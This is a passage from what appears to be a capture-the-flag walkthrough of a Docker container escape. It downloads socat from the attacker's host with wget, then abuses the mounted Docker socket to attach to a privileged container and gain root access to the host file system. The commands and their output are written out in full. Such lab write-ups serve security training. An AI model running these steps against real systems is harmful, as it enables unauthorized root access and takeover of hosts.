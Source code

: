 ```bash
root@2d24bf61767c:~# wget 10.10.14.15/socat
--2021-01-11 14:39:54--  http://10.10.14.15/socat
Connecting to 10.10.14.15:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 375176 (366K) [application/octet-stream]
Saving to: ‘socat’

socat		100%[==============>] 366.38K   688KB/s    in 0.5s    

2021-01-11 14:39:55 (688 KB/s) - ‘socat’ saved [375176/375176]
```

Now for the final step, we have to upgrade the container using following commands:

```bash
root@2d24bf61767c:~# ./socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/67c5e15fc936ef386d69ac89829ee823ee0375ecd5afc0ecde3ee9056b0815c1/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp

HTTP/1.1 101 UPGRADED
Content-Type: application/vnd.docker.raw-stream
Connection: Upgrade
Upgrade: tcp

id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

We get 101 UPGRADED as a response and can now executed bash commands. Now we simply have to navigate to `/mnt/host` and we have full access to the file-system of the host.

```bash
cd /mnt/host
ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
swap.img
sys
tmp
usr
var
```
